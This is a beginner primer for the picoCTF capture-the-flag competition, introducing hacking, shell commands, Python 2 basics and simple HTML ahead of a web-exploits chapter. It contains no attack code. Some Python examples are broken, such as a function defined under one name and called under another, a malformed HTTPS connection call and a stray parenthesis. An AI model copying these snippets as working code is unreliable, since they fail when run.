1. Introduction
You are going to have real fun here. And, you will gain the ability to do impressive things in life using a computer. It will be like acquiring a super power to be able to do things that not ordinary people can do. Let’s see how is that possible.
A common mobile device, the one you might have in your hands right now, can have 100,000 times more computing power than the computer used to send humans to the moon for the first time. There are 7.7 billions of humans; did you know that by 2020 there will be more than 30 billions of devices connected to the Internet? Imagine all that power… you could do any unprecedented things with only a little part of it, and that power keeps growing everyday…
Our world depends on computers. If all of them broke, imagine the apocalyptic catastrophe: money in banks is inaccessible, all telecommunications die, airports cease functioning and commercial airliners would fall from the sky, energy distribution systems become uncontrollable, hospitals and critical life support systems would irrevocably fail, and our society would collapse… In 1988, a single person, without bad intentions, took down all the Internet with just one malicious program, known as the Morris Worm. Society was different at that time so it was not as catastrophic as it would have been now. But, why we have not collapsed yet?
The only way to overcome a weakness is to first know that it exists. Hackers, find weaknesses in the computer world. The word hacker has had several definitions along history. In a dictionary, we can find two related definitions:
-
An expert at programming and solving problems with a computer
-
A person who illegally gains access to and sometimes tampers with information in a computer system
We are going to take a little from both definitions, but we will gain access and tamper information for good. In other words, a skill can be used for malicious purposes or, to become the real life hero that manipulates technology at will, keeping the planes in the sky, and society out of collapse. That sounds romantic, but you will realize that just the mere fact of making your computer make something awesome, and getting a secret flag generates emotions and adrenaline. Come with us to this journey to become a real hacker!
2. The Shell
The Shell is foundational to so many parts of securing computing devices and their networks. Intimidating and alluring (like most symbols enshrined by film makers), understanding the shell can make or break one’s ability to solve challenges in a capture-the-flag competition like picoCTF.
To be transparent, I (LT) am still learning a lot about the shell, and I’m just about 10 years into it right now! This is an encouragement - anyone curious enough to jump into rabbitholes here and there is always going to have opportunities to learn more about an amazing tool like the shell. But rest assured, I was proficient in the shell long ago and it does not take very much time before the shell starts working for you.
Next up, what is that mystique unique to the hacker and their shell?
2.1. Symbol of the Hacker
A blank, black screen and blinking cursor. Lines and lines of scrolling text and someone in front of that screen who seemingly understands an incomprehensible flow of information. That is the shell.
The shell has many other names: the terminal, the command prompt, bash… Powershell, if you’re looking at Windows and feeling blue. Each name has its own nuances. But that doesn’t matter right now. What matters is that there is the interface to computing devices that nearly all people use, and then there is the shell.
If you’ve come here to get a shell and don’t care for much else, then you should skip to the Get a Shell section. Be warned that the shell is more powerful than the usual way of interacting with a device. Deleting files is permanent in the shell, any file can be accessed at any moment in the shell, and hopefully it’s not far fetched to assert that those two things are a dangerous combination.
2.2. Got Shell?
Using a computer or smart device happens in 1 of 2 ways:
-
Using a pointer such as a mouse, touchpad or finger to select apps, files, or buttons
-
Using keys on a keyboard to enter simple or complex commands (the Shell)
Thankfully, there are TLA’s (Three Letter Acronyms) for both of the methods described above:
-
GUI. Pronounced "gooey," stands for Graphical User Interface
-
CLI. Sounded out: "See-El-Eye," stands for Command Line Interface
These acronyms are pretty good as far as acronyms go. We will refer to the shell by many names, perhaps sometimes even by the CLI initialism. The GUI doesn’t have as nice of a name as the shell, so we will probably use GUI to briefly refer to the interface that everyone knows about on computing devices that is driven by a pointer on a screen.
Below is a screenshot of a shell after successful login and before the user has typed in any commands:
In the picture above, there is a lot of empty space, and even the line of text that exists, does not provide a lot of clarity. The situation is simpler than how it looks. There are only 3 pieces of information in the screenshot above, and you would likely recognize at least one of them if it were you who logged on:
From left to right in the shell command line prompt:
-
What does
Q0h313thmean? -
What does
pico-2019-shell1mean? -
What does
~mean? -
What does
$mean?
In terms of raw power, Q0h313th could delete every file they own on this
machine with one command. That’s almost never desireable, and I will wait to
show this command until there is something useful and desireable to do with it.
In terms of useful power, Q0h313th could create a copy of an entire website for
use when there is no accessible WiFi. That’s using the command wget.
Now let’s talk about getting a shell!
2.3. Get a Shell
Cybersecurity is a topic that is most deeply learned by listening and doing. For this reason, I advise you to create a picoCTF 2019 account at this time if you have not already. Beyond providing 120+ security challenges in helpful learning ramps, every picoCTF 2019 account gets a user on a Linux server, which can only be accessed with a shell.
A note on the structure of my (LT’s) chapters: many times I will provide a high level tutorial for a task and also a step by step walkthrough for the same task. This is my attempt at accomodating different learning styles, different levels of experience or whatever else. Typically, the high level walkthrough is more for learners who already know the basics but need a refresher or need a reminder about the particulars when it comes to this Primer. The step by step walkthrough is more for learners who have never ventured in a particular sort of task before. Of course, you must choose your own path here, but the safest bet may be to read the high level walkthrough but actually put hands to keyboard for the step by step walkthrough.
2.3.1. High level tutorial
-
Gain access to a practice shell
-
Register for a picoCTF 2019 account
-
Click link in email that is sent to registered email address
-
-
Register account on picoCTF 2019 shell server
-
Log in once to create account on shell server
-
Only required for first login for your account
-
-
Reconnect
-
Log in again to get a shell
-
-
2.3.2. Step by Step Walkthrough
Register for a picoCTF 2019 account at the link below. You will need to validate the email address you provide by clicking on a link that is sent to it.
After successfully registering, a web shell can be accessed at the URL below. Use the same user name and password that you registered on the picoCTF 2019 website to log into the shell at the link below (or in the "Shell" tab in the picoCTF 2019 website) For the sake of security, you will not see your password as you type it in. You will log in twice. This is only for your first log in.
You will know you’ve successfully logged into the shell if you see a screen similar to this:
clear command!Not as sterile as the empty shell I pictured here. However, if
you type clear and press enter, it will be quite pristine! All of the info
that is pictured directly above is mostly for system administrators
(sysadmins). You can safely ignore it.
2.3.3. Debrief
Congratulations (esp. if this is your first time staring at a command prompt)! The next section focuses on demystifying the shell by relating its usage to devices you’ve probably already used for years; and if not, you’ll join the ranks of those whose first language is Shell.
2.4. GUI-fu to Shell-fu
Our first language as children, whether Spanish, English or anything else primarily for communication with other humans, likely took little conscious effort on our part. For anyone who has learned a second language, it was quite the opposite: very little - if anything - came naturally. Learning Shell for someone who has only "spoken" GUI is like learning a second language. This is good news and bad news. The good news is that Shell and GUI are languages for something you’ve been using for probably years, but the bad news is there is a whole new vocabulary with only a handful of cognates (words that sound and mean the same in both langauges) here and there.
The basic computer operations that everyone is familiar with in GUI’s can easily be done in the shell as well. Here’s some of the most common operations for anyone using a computing device:
| Operation | GUI action | Shell action | Shell example | Note |
|---|---|---|---|---|
Start app |
Click or touch icon of app |
Type name of app and press enter |
|
Pressing the Enter key sends the command to the shell to run and return. |
Open file |
Browse to file, click |
Use |
|
|
Download app |
Browse app store, click |
Use |
|
Install ChessX game. The hard part was finding a relevant package name. |
As the table above shows, using a GUI involves browsing and clicking, while using a shell involves knowing a good app to use. Google has made finding the right app for a shell interface much easier than it was years ago. As always for CTF’s, Google is your friend! However, more direct resources can be even more helpful, such as this website below that quickly explains shell commands:
However, things do not always go as planned. The next section deals with those sorts of situations that inevitably arise.
2.5. What the Shell!?
The main severity in the learning curve with the shell is that you must know the apps and commands available to you either by memorization or by looking them up when you need them. Certainly it is faster to memorize as many as possible.
The other challenge is the amount of typing that sometimes must be done to reference the intended file.
Lastly, interfacing with apps also requires memorizing or looking up names of parameters or arguments.
To summarize, some of the most challenging aspects of using the shell:
-
Memorizing commands (aka apps/programs)
-
Typing out long commands
-
Memorizing arguments for commands
2.5.1. Challenge 1: Memorizing commands
Having a cheatsheet with shell commands listed is a must for overcoming the challenge of memorizing commands. Printing it out is an added bonus if possible! (Saves screen space). The cheat sheet linked below is very good!
2.5.2. Challenge 2: Typing out long commands
Many wonderfully brilliant students of mine have not known how to speed up their typing in the shell command prompt until thousands of picoCTF points into their learning. I take responsibility for this, and really, most of us go through that phase, but we do not have to! One word:
TAB
In the shell, pressing the TAB key invokes auto-complete by 1. assuming you’ve spelled the command or file correctly up to the point of pressing tab, and 2. completing the command of file name as much as it can.
The functionality of auto-complete in the shell is so different from autocomplete in other apps, such as those in a phone, that shell auto-complete is often referred to as tab-complete. It takes some practice to get used to, but it is really worth the time as it probably cuts number of key presses in half!
Unlike autocomplete for a soft keyboard on a phone, tab-complete is never wrong, however, this is mostly because it makes no guesses and only helps with completing commands and file paths and names. It hardly ever helps complete arguments to commands besides file names. If pressing tab doesn’t do anything, this is either because 1. there is no such command or file name to complete what you’ve already typed into the command prompt, or 2. there are multiple commands or file names that could complete what you’ve already typed into the command prompt. Try typing another letter or two. Hit the tab key again. If nothing more is completed, hit tab one more time. If nothing really happens besides an angry noise or flash, then there is no way to complete what you’ve already typed (maybe there is a typo?), but if the issue is that there are multiple possibilities for tab complete to choose, then these options will display after your second strike on the tab key. The double press of tab can be done at any time, but if there are hundreds of options then the shell will ask for your approval before printing all those options because that’s not usually very helpful.
In the next section, I will guide you through some fundamental shell commands to start getting a sense for the world of the shell.
2.5.3. Shell Nav Exercise 1
# SOME NOTES:
# * text listed after "$" I mean for you to enter into the shell and then
# press enter
# * text listed after "#" are comments from me to you but are ignored by
# the shell
#
# this short tutorial is meant to run through foundational shell commands
# with brief explanations for each
# the following command "parks" your shell in your home directory (which is
# somewhere you can create files!)
$ cd
# the following command shows where your shell is parked
$ pwd
# the following command creates a new directory called "tutorial" where you
# are currently parked
$ mkdir tutorial
# the following command moves your shell and parks it in the "tutorial" folder
# you just created
$ cd tutorial
# pwd stands for "print working directory". "working directory" is the
# technical term for where one's shell is parked
$ pwd
# the following command creates an empty file with the name "note.txt"
$ touch note.txt
# the following command list the contents of your working directory
$ ls
# personally, I prefer a one column output of the contents of my working
# directory, like
$ ls -l
# the following command shows the text content of "note.txt" (which is empty
# right now)
$ cat note.txt
# the following command puts "hello world! I'm a snail" into "note.txt"
$ echo "hello world! I'm a snail" > note.txt
# cat will print something now that there is content in "note.txt"
$ cat note.txt
# the following command makes a copy of "note.txt" called "new-note.txt"
$ cp note.txt new-note.txt
# what is in "new-note.txt"?
$ cat new-note.txt
# * the following command opens "new-note.txt" in a terminal text editor
# * try changing the file, then press Ctrl-X to exit and save
$ nano new-note.txt
# if you were successful, this command should print the new content
$ cat new-note.txt
# if you were not successful, that is just fine. revisit this exercise after
# some more reading and practice!2.6. Conclusion
You may have noticed that we did not cover overcoming challenge 3. If you are
curious, look up the man command explained in this cheat sheet:
Using Google helps with learning commands to help solve problems in the shell, and also the "Expain Shell" website I linked to earlier in this chapter.
There is so much to learn in the shell, but before learning more, my friend
will continue as your guide in the next chapter on the Python programming
language. Using the nano text editor app, as described in the tutorial
above, you now have the skills to write programs in the shell!
Let the Shell lessons sink in as you learn more about one of the most popular and powerful programming languages to grace the Earth.
3. Programming in python
A computer program is a set of instructions that allow us to do a task automatically on a computer. We can make a computer program in a programming language. Computer programs are generally called "software". With a computer program we can do all sorts of things. Some examples are calculators, video games, text processors, browsers, and all the things you have ever used in a computer. Nowadays, there are computers everywhere. Any device such as a cell phone, smart watch, or modern car is running software that was made in programming. To begin, we are going to learn python, which is one of the easiest programming languages to learn.
Let’s begin writing python! We are not going to explain each detail of python independently. For that, you could read the python documentation, which is located here:
However, if you don’t know any programming, going directly to the documentation can be overwhelming. We are just going to explain some parts of python which are a good start to begin to write your own programs to exploit software. We do this by making examples that achieve one objective and we explain how they work along the way. This will also allow you to read code written by someone else, of course, with the help of google if they use elements that you did not know previously.
When you are learning a programming language, there is a tradition in which the first program you write simply prints "Hello World!"" on the screen. We will be using python 2, the number 2 is the version of python. There are already higher versions, however, we are using python 2 because it is compatible with the exploitation libraries we will teach. Nonetheless, after you learn python 2, it is very easy to learn python 3. Let’s start doing the "hello world!" program.
Open the shell server, and create a folder called "python_examples". You can do it with the following line:
mkdir python_examplesNow, access that folder using
cd python_examplesCreate a file called "helloworld.py", you can do it with:
nano helloworld.pyTo make our ‘hello world!’ program in python, it is just required one line of code! Simply write this on the file:
print "Hello World!"Now save the file in nano by pressing 'control' and 'x' at the same time, and then press 'y', then 'enter'.
Run the program on the terminal with:
python helloworld.pyYou should see that is printed "Hello World!"" on the screen when you run it:
python helloworld.py
Hello World!That was our first program in python!
Python, as any other programming language, has variables. A variable can hold different types of data. What we just printed on the screen, was a string of characters. When we enclose something in quotes, we are telling python it is a string of characters. A string is a data type. In python, to create a variable we simply choose a name and assign the value that we want. For example, we are going to create a variable called my_string, and we are going to assign to that variable the value "Hello World!"
my_string = "Hello World!"That line of code makes the variable my_string equals to "Hello World!". In python programming, the symbol = is used to assign the value from the right side of the equal to the variable at the left side. Variables can have any name we like, except some specific words that are reserved for python instructions. For example, the word 'print' is reserved, so you cannot use it as a variable name.
Now, if we print the variable, it should print "Hello World!". Do that experiment! The python script should look like this:
my_string="Hello World!"
print my_stringRun it and you will see "Hello World!"" printed on the screen again.
Hello World!You can also assign numbers to variables and do mathematical operations between them. Let’s make a simple program that calculates the area of a square. Create a file called "area.py" and write the following:
side1=4
side2=8
result=side1*side2
print resultIf you run that script, what do you think is going to print?
When you run it you should see:
32Those were very trivial examples. Now, suppose you want to print a list of 20 numbers that starts at 0 and ends at 19. We can do that in just a couple of lines, instead of writing 20 prints! Create a file called loop.py and use the following code:
for i in range(20):
print iRun it and you should see:
0
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19We have introduced the concept of a python loop. The word 'for' is used to declare a 'for loop', which is a loop that iterates in a range of numbers. The 'i' next to 'for', is a variable that will be incremented on each iteration on a range of 20. We can change the range for a bigger one or a smaller one by changing the number inside the parenthesis. Note that a line of code will be inside the loop, if it is indented by four spaces. For example, run this:
for i in range(10):
print "I am inside the loop"
print i
print "I am OUTSIDE"You will see:
I am inside the loop
0
I am inside the loop
1
I am inside the loop
2
I am inside the loop
3
I am inside the loop
4
I am inside the loop
5
I am inside the loop
6
I am inside the loop
7
I am inside the loop
8
I am inside the loop
9
I am OUTSIDENote that the string "I am OUTSIDE" was printed only once, because it is outside the loop. To be inside the loop the code need to be indented by 4 spaces, as we said. Once we use a line of code that is not indented for the first time after the loop, that is considered the end of the loop. If you try to indent a line after the loop has finished, like this:
for i in range(20):
print "I am inside the loop"
print i
print "I am outside"
print "I am outside 2"That would cause a syntax error when you run it. A syntax error means that the code is not complying with the way python should be written. In this case, would specifically show an indentation error:
python helloworld.py
File "helloworld.py", line 5
print "I am outside 2"
^
IndentationError: unexpected indentThat happens because we put and indentation, and the for loop was already closed. Syntax errors at the beginning can happen to you by accident and you might not fix them very easily, but with a little time you will begin to fix them quickly if they happen. To practice, spot the syntax error in the following code:
for i in range(20):
prin "I am inside the loop"
print i
print "I am outside"What is the error?
Run it to see what happens. It will show:
python helloworld.py
File "helloworld.py", line 2
prin "I am inside the loop"
^
SyntaxError: invalid syntaxPython shows you the line with the error, but not the exact location. In this case we missed the 't' from 'print'. Another error might be that the colon from the for loop is missing:
for i in range(20)
print "I am inside the loop"
print i
print "I am outside"In that case it will show you:
python helloworld.py
File "helloworld.py", line 1
for i in range(20)
^
SyntaxError: invalid syntaxIf you add the missing colon after range(20), the program should work. A syntax error can happen because any reserved word is misspelled; remember that reserved words are words that python recognize as instructions. For example, 'print', 'for', 'in' are reserved words in our program. Additionally, a syntax error can happen because of a missing symbol such as a colon.
As a challenge, implement a program that prints your name 10 times, and below your name prints a number starting at 100 and ends at 109. The output of your program should look similar to:
Samuel
100
Samuel
101
Samuel
102
Samuel
103
Samuel
104
Samuel
105
Samuel
106
Samuel
107
Samuel
108
Samuel
109Hint: use range(100,109).
Once you are done with the previous challenge, fix the following program that has several syntax errors and make it work:
for i inn range(10:
prnt iThe program should print the numbers from 0 to 9.
So far we have seen how a computer can repeat an instruction several times, which is something fundamental in a computer. We want computers to do repetitive tasks for us. Another fundamental function we want in computers are conditional clauses. A conditional clause means that a program will do an action only if a condition is met, or take other path if the condition is not met. For example, suppose you are printing the numbers from 0 to 9, and you want to print a particular message when the number is less than 5 and another message when the number is equal or greater than 5. You would do it in the following manner:
for i in range(10):
if i<5:
print "The following number is less than 5"
if i>=5:
print "The following number is greater than or equal to 5"
print iRun it and verify the results. We have introduced an if-clause, which is a conditional clause. Note that all the code is inside the loop. The first message is inside the first if-clause, that is only fulfilled when 'i' is less than 5. The second message is inside the second if-clause, which is only fulfilled when the 'i' is greater than or equal to 5. At last, we print the variable 'i' , which is not inside any if-clause, so it is always printed.
Another way to implement this program, is using an 'else':
for i in range(10):
if i<5:
print "The following number is less than 5"
else:
print "The following number is greater than or equal to 5"
print iWhen then condition in an if-clause is not met, it enters the 'else' to execute what is inside. You should still see this output when you run the program:
python helloworld.py
The following number is less than 5
0
The following number is less than 5
1
The following number is less than 5
2
The following number is less than 5
3
The following number is less than 5
4
The following number is greater than or equal to 5
5
The following number is greater than or equal to 5
6
The following number is greater than or equal to 5
7
The following number is greater than or equal to 5
8
The following number is greater than or equal to 5
9To practice, implement a program that prints a range of 100 numbers and prints a different message when the numbers are smaller than 10, other message when the numbers are between 10 and 50, and other message when the numbers are greater than 50.
3.1. Lists
There are several data structures in python, which are simply structures to organize data in a certain manner. Different data structures have different properties. We are going to introduce one that is called a 'list', which allows us to store several values, one after the other.
We create a list like this:
my_list = ["I", "Love", "picoCTF"]
print(my_list)We can iterate in the list to operate on each item in any way we want. For example, suppose we want to print each item of the list, we could do this:
my_list = ["I", "Love", "picoCTF"]
print(len(my_list))
print(my_list)
for i in my_list:
print(i)When you run that program, you should see the following output:
3
['I', 'Love', 'picoCTF']
I
Love
picoCTFNote that the number 3 printed is the length of the list. You can sort the list alphabetically by calling a function that is part of the list like this:
my_list = ["this", "is", "not","ordered","alphabetically"]
my_ordered_list=my_list.sort()
for i in my_list:
print(i)You should see this output when you run that program:
alphabetically
is
not
ordered
thisNow, create a list of numbers, and print it backwards! Using google, it should be very easy to find how to do it.
3.2. Functions
If you have a piece of code that you want to use often, copy pasting that piece of code is a bad idea because your code gets longer and for a human becomes harder to read. On the other hand, if you want to make a modification in that piece of code, you would have to modify every part in which you copy and pasted that code. We can overcome that by using functions. A function can receive parameters, which are variables you pass to the function so operations with them can be done. Additionally, a function can return a value, which is the result after all the operations are done. Let’s see an example of a function that verifies if a number is even or odd. If it is even, it will return True. If it is odd, it will return False. The program receives any number you input and verifies that. Note that the '%' operator in the code, is the modulo operator, which calculates the remainder. In this case we calculate the remainder of x divided by 2, and compare that to zero to determine if the number is even or odd. Read the code to understand!
def even_odd( x ):
if (x % 2 == 0):
return True
else:
return False
print "Input a number:"
my_number = input()
if is_even(my_number):
print "The number is even"
else:
print "The number is odd"Run that program and try several numbers!
3.3. Input and output
A program might need to have interactions with a user. For example, a calculator expects that the user enters some numbers to then do the processing. Receiving user input in a terminal is very easy in python because it has predefined functions that do it for us. The function ‘input()’ waits until the user writes something in the terminal and press enter. Note that a function can have zero parameters. Then, the function returns the string that the user wrote, and we assign it to the variable number_iterations’. Here is an example, in which we allow the user to control the number of iterations of our program:
print "Input the number of iterations:"
number_iterations = input()
for i in range(number_iterations):
if i<5:
print "The following number is less than 5"
else:
print "The following number is greater than or equal to 5"
print iRun that program. When you run it, it will do nothing until you input a number in the terminal and press enter.
In other cases, the data we want to input does not have to come from the user. It could come from a file. We can read all the lines from a file using the function 'open'. Create a file called “pico.txt” in the same folder that you are creating the python programs. Then, in that file copy and paste this text:
"The Cosmos is all that is or was or ever will be.
Our feeblest contemplations of the Cosmos stir us
-- there is a tingling in the spine,
a catch in the voice,
a faint sensation,
as if a distant memory,
of falling from a great height.
We know we are approaching the greatest of mysteries." Carl SaganSave the file. Now, in the same folder, create a program with the following code:
filepath = "pico.txt"
cnt = 1
with open(filepath, "r") as my_file:
for line in my_file:
print cnt
print line
cnt += 1You should see the following output when you run the program:
1
The Cosmos is all that is or was or ever will be.
2
Our feeblest contemplations of the Cosmos stir us
3
-- there is a tingling in the spine,
4
a catch in the voice,
5
a faint sensation,
6
as if a distant memory,
7
of falling from a great height.
8
We know we are approaching the greatest of mysteries.As you saw, this program reads a file and enumerates each line in the output. The 'open' function has two parameters, the first one is the path of the file you want to open, and the second has a string with the letter 'r', which means that we want to read the file. 'my_file' is just the name of the file we want to read. Then, we can iterate over each of the lines of the file in a for loop.
Note that this is all made inside a 'with' block. We use the 'with' statement before opening a file to close the file automatically after reading. Also, to handle in a simpler way possible exceptions during the execution. What that means is that when you open a file, you have to close it and make sure that is closed correctly. For example, if you do my_file.close(), that would close the file, however, imagine that along the way before calling close, something happens and you never get to the line in which you close the file, so you left it open accidentally. Later we will give you more details on exceptions. For the time being, just think of 'with' as an easy way to ensure that the file will be closed correctly.
If you want to save your output in another file, you can easily do it in the following manner:
filepath_read = "pico.txt"
filepath_write = "outputpico.txt"
cnt = 1
with open(filepath_read, "r") as file_read:
with open(filepath_write, "w") as file_write:
for line in file_read:
file_write.write(str(cnt)+"\n")
file_write.write(line+"\n")
cnt += 1
print "look inside your folder..."We introduced some new concepts in this code. This:
str(cnt)Is a cast from an integer to string. We want to convert that integer into a string to be able to concatenate two strings. For example, if we have the string "hello" and the integer 123, and we want to create a string that is "hello123", we can concatenate those two values. But first, we need to convert the integer to string, otherwise python will show an error. To concatenate strings, we use the operator '+'. When we add two strings, python will concatenate them. When we add two integers, python will do a mathematical addition. To represent a break of line in a string, we use "\n".
After this explanation, you should know that this:
str(cnt)+"\n"Simply converts an integer to string, and then we concatenate a breakline to it. We do that, because the function line write() does not add a breakline to the string after it writes it, so we would have a file with a single huge line of text if we don’t do that. When you run the code, you should see no output in the terminal, but if you show the contents of the folder you are in, you should see a new file called 'outputpico.txt'. If you show the contents of that file, you should see the following:
cat outputpico.txt
1
The Cosmos is all that is or was or ever will be.
2
Our feeblest contemplations of the Cosmos stir us
3
-- there is a tingling in the spine,
4
a catch in the voice,
5
a faint sensation,
6
as if a distant memory,
7
of falling from a great height.
8
We know we are approaching the greatest of mysteries.We just learn how to read and create files!
3.4. Comments
It is a good practice to explain what your code is doing in a comment. In that way, the reader of the code, that can be yourself, will understand easier what some part of the code is doing. You will realize that when you write some code, you will forget the exact logic and you will have to read it again to understand what you did. In summary, comments are something very important in programming. In python, you write a comment by adding the '#' symbol at the beginning of any line of your code. That line, will be ignored by the python interpreter as it did not exist, so it does nothing in the program. See the following example:
print "Input the number of iterations"
#We read user input and assign it to the variable number_iterations
number_iterations = input()
#we iterate according to the value input by the user
for i in range(number_iterations):
if i<5:
# we only print this message when the value of i is less than 5
print "The following number is less than 5"
else:
# we only print the value of i is greater than or equal to 5
print "The following number is greater than or equal to 5"
# we always print this
print i3.5. Try-except and exceptions
Exceptions are useful in hacking in several cases, for example, when you want an attack to keep executing even if an unknown error occurred. When a program tries to execute an instruction that even though it has a correct syntax, it cannot be done for some other reason, an exception is thrown. For example, if you try to divide a number by zero, that can have the correct syntax to do it, but when the program is executing that line it will stop and fail. Let’s do the experiment:
num1=8
print "Input the number that will divide:"
num2=input()
result=num1/num2
print(result)
print "The program keeps executing to do other stuff..."As you can see that program divides 8 by any number input by the user. If you run it and input for example 2, nothing bad will happen, and you will see this:
Input the number that will divide:
2
4
The program keeps executing to do other stuff...Now, run the program again and input 0, you will see this:
Input the number that will divide:
0
Traceback (most recent call last):
File "helloworld.py", line 4, in <module>
result=num1/num2
ZeroDivisionError: integer division or modulo by zeroAn error was caused, because you cannot divide by zero. That is a rule of python and most programming languages. Your program will stop when an error happens and further lines will not be executed. In this case, you could verify that the number is not zero in an if-clause, but, for the sake of the example, let’s fix the program instead using a try-except:
num1=8
print "Input the number that will divide:"
num2=input()
try:
result=num1/num2
print(result)
except:
print "An error has occurred, did you try to divide by zero?")
print("The program keeps executing to do other stuff...")In our previous code, you would print the same message for any error. Try to input a string instead of 0. It will show the same message. If you want to be more specific, you can catch specific errors in the following manner:
num1=8
print "Input the number that will divide:"
num2=input()
try:
result=num1/num2
print result
except ZeroDivisionError:
print "Do not divide by zero, that is forbidden."
except TypeError:
print "Your input value must be an integer."
print "The program keeps executing to do other stuff..."Now if you input a string, it will show this:
Input the number that will divide:
"Any string"
Your input value must be an integer.
The program keeps executing to do other stuff...And if you input zero it will show this:
Input the number that will divide:
0
Do not divide by zero, that is forbidden.
The program keeps executing to do other stuff...Note that when an error occurs, the following lines inside the 'try' block will not execute. See that 'result' is not printed, and that makes sense because there was no result to print. The program jumps into the ‘except’ block immediately.
3.6. Pass arguments to a python program
When you call a program from the command line, it is possible to pass arguments in the same way you do with several programs in the terminal. The following program shows how to do this:
import sys
print 'Number of arguments:', len(sys.argv), 'arguments.'
print 'Argument List:', str(sys.argv)
print "The number of arguments is taken from the second argument."
print "Remember that in an array [0] is the first one, [1] is the second one."
number_iterations = sys.argv[1]
f = open("output2.txt", "w")
for i in range(int(number_iterations)):
if i<5:
f.write("The following number is less than 5")
else:
f.write("The following number is greater than or equal to 5")
f.write(str(i))
f.close()
print "look inside your folder..."In this example we introduced another way to open a file, which does not handle the close for us.
3.7. ASCII
ASCII is a way in which a computer represents characters. We could say that in memory and computer only store numbers, but a program can interpret those numbers in a certain way to understand them as characters.
In the following table, it is shown what number corresponds to each character in ASCII:
The ASCII includes all the characters that are used normally in the english language. For other languages, there is a bigger character set called Unicode.
In the ASCII table, for example, you can see that the @ symbol is represented as the 64 number in decimal.
The table also has a column called Hx. That means Hexadecimal, which is base 16. Decimal is base 10. What is this?
The decimal base, is the one we use in everyday life. They say that it comes from the fact that humans generally have 10 fingers. So, we have 10 different symbols to represent all different numbers. In computers, it is helpful to have a base with 16 symbols, because it translates easier to binary. You probably know that most computers physically store only binary numbers, which are represented only by 0 and 1. A binary digit, is called a bit. So, computers use binary, and base 16 is easy to translate from binary for us humans.
The hexadecimal base (or base 16) has the following symbols:
0 1 2 3 4 5 6 7 8 9 a b c d e fThe binary base (or base 2) has these symbols:
0 1The decimal base (or base 10), has the following symbols:
0 1 2 3 4 5 6 7 8 9Let’s see in python how can we use the hexadecimal representation to print characters. In a python string, you can put “\x” which is a special sequence, to tell python that the following two characters are a hexadecimal number:
print "picoCTF"
print "\x70\x69\x63\x6f\x43\x54\x46"When you run that program you should see:
picoCTF
picoCTFCheck the table to see that the characters match!
Challenge, print the string “I_LOVE_PICOCTF” only using hexadecimal. Note that uppercase letters are represented by a different hexadecimal number than lowercase letters.
3.8. Pwn tools
For binary exploitation, there is a very useful library called pwn tools:
Keep this library in mind as an important part of python for exploitation. You do not need to learn anything right now. We will teach how to use it in binary exploitation.
3.9. Http requests in python
This is an example of how you can request a web page in python. Here we are requesting the HTML of the picoCTF website. Right now, maybe you do not know HTML, so this will not make much sense to you. After you are done with the Web section, come back here a try this example:
import httplib
conn = httplib.HTTPSConnection("https://picoctf.com/")
conn.request("GET", "/")
r1 = conn.getresponse()
print r1.status, r1.reason
#200 OK
data1 = r1.read()
conn.request("GET", "/")
r2 = conn.getresponse()
print r2.status, r2.reason
#404 Not Found
data2 = r2.read()
conn.close()After you do, or if you did the Web Section, you can query the html of your own page!
4. Web Exploits
Web exploits are a nice starting point to dive into the world of hacking. Chances are that you are familiar with a web browser, so you will feel you are working on something that you already know!
4.1. Html
Before diving into Web Exploits, you need to understand how a website works. Many years ago, the web was used to visit static pages that did not have interactive features; they just showed information. To do a static page, it is enough to write some lines of HTML. What is HTML? First of all, it is not a programming language. Html means HyperText Markup Language, and we use it to determine the font size, colors, margins, or similar features in a web page. When an html file is accessed in a browser like Firefox, Chrome or whatever browser you like, the browser presents the text according to the html on it. Your browser can access an html file locally. Locally means that the file could be in your laptop or file system. In contrast, it could access the file remotely through the Internet. Let’s see an example of creating a simple html and access it locally:
-
On your computer, create a folder called “picoexample” and then, inside that folder, create a text file and name it “myFirstPage.html”. You can do this on Notepad on Windows, Textedit on Mac, or any text editor from Linux. It is important that the extension is “.html”. It cannot be ”.html.txt” or something that is not exactly “.html”. If you don’t see the extension in your operating system, this is a good opportunity too google how to make it appear to be able to modify it. Remember, for this simple obstacles that might appear along the way, google is the answer.
-
Edit the content in a text editor and write: Hello World!
-
Save the file
-
Open the file in any browser. To do that, you can right click on the file, and then select “open with” and choose the browser you want. You should see a page like the following:

-
Now, in the text editor, modify the content of the file and replace the text by: <b>Hello World!</b>
-
Save the file on the text editor. Then, open the file in the browser again, or you can simply click refresh on your browser. Since it already has opened the file, you will see the message in bold, in page similar to this:
